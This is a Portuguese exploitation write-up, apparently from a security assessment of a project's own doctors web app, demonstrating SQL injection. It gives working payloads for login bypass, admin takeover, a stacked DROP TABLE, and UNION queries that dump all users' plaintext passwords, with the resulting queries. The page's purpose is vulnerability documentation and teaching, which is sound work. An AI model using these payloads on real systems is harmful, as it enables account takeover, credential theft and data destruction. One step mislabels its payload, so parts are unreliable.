 ## CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
- https://cwe.mitre.org/data/definitions/89.html

**Ver descrição, score e solução no [report.md](../report.md#cwe-89-improper-neutralization-of-special-elements-used-in-an-sql-command-sql-injection).**

---
# Exploração da vulnerabilidade

## Ataque: login sem credenciais válidas

### Passo 1
Aceder à página de login e inserir um email existente e no campo 'Password' o seguinte excerto de código SQL:
```sql
' or 1=1 ) -- //
```

![CWE-89](images/CWE-89_image1.png)

### Passo 2
Submeter o formulário de login.

![CWE-89](images/CWE-89_image2.png)

### Resultado
É executado o seguinte comando SQL:
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND ( password_ = '' OR 1=1 ) -- // ) "
```
equivalente a
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND 1
```
equivalente a
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' )
```

O atacante entra na conta, mesmo desconhecendo a password da vítima.

## Ataque: login na conta do administrador
### Conhecimento prévio 
O atacante sabe que é provável que o utilizador com id = 1 seja um administrador do sistema.

### Passo 1
Aceder à página de login e inserir um email existente e no campo 'Password' o seguinte excerto de código SQL:
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND ( password_ = '') OR 1=1 -- // ) "
```
equivalente a
```sql
SELECT * FROM app_user WHERE 1
```
equivalente a
```sql
SELECT * FROM app_user
```

O atacante entra na conta do primeiro utilizador registado na tabela 'app_user' (correspondente ao **admin**), mesmo desconhecendo a sua password.

No caso, a conta do admin tem acesso a uma página de administração, que permite fazer *queries* à base de dados.

![CWE-89](images/CWE-89_image3.png)

O atacante consegue aceder aceder e modificar o conteúdo da base de dados.

<br>

## Ataque: apagar a tabela com os utilizadores
### Conhecimento prévio
O atacante sabe que a tabela 'app_user' pode conter os utilizadores registados no sistema.

Esse nome é o predefinido por algumas aplicações web, por exemplo, as que desenvolvidas em Django (outra framework web Python).

### Passo 1
Aceder à página de registo de um utilizador (não doutor) e inserir no campo 'First Name' o seguinte excerto de código SQL:
```sql
'); DROP TABLE app_user; -- //
```

### Passo 2
Submeter o formulário de registo.

![CWE-89](images/CWE-89_image4.png)

### Resultado
É executado o seguinte comando SQL:
```sql
INSERT INTO app_user (email, password_, name_) VALUES (''); DROP TABLE app_user; -- //
```
equivalente a
```sql
DROP TABLE app_user;
```

![CWE-89](images/CWE-89_image5.png)

Os utilizadores não conseguem autenticar-se no sistema e aqueles que têm uma sessão iniciada não têm acesso a algumas funcionalidades, nomeadamente a listagem dos doutores (vale recordar que esses também são utilizadores).

<br>

## Ataque: apagar a tabela com utilizadores/doutores, desconhecendo o nome da mesma

### Passo 1
Aceder à página *Doctors* e inserir no campo de pesquisa o seguinte excerto de código SQL:
```sql
1' AND 1=2 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table' -- //
```

### Resultado intermédio
É executado o seguinte comando SQL:
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE app_user.name_ LIKE '%1' AND 1=2 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table' -- //%'
```
equivalente a
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE 0 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table'
```
equivalente a
```sql
SELECT sql,1,1 FROM sqlite_master WHERE type='table'
```
O atacante fica a conhecer o nome das tabelas da base de dados.

![CWE-89](images/CWE-89_image6.png)

### Passo 2
Inserir no mesmo campo de pesquisa o seguinte excerto de código SQL:
```sql
1' AND 1=2 UNION SELECT name_, email, password_ FROM app_user -- //
```

### Resultado
É executado o seguinte comando SQL:
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE app_user.name_ LIKE '%1' AND 1=2 UNION SELECT name_, email, password_ FROM app_user -- //%'
```
equivalente a
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE 0 UNION SELECT name_, email, password_ FROM app_user
```
equivalente a
```sql
SELECT name_, email, password_ FROM app_user
```

![CWE-89](images/CWE-89_image7.png)

O atacante fica a conhecer as credenciais de todos utilizadores, incluindo o admin e os doutores. Como as passwords estão em [*plain text*](CWE-257.md), o atacante consegue apoderar-se de qualquer conta.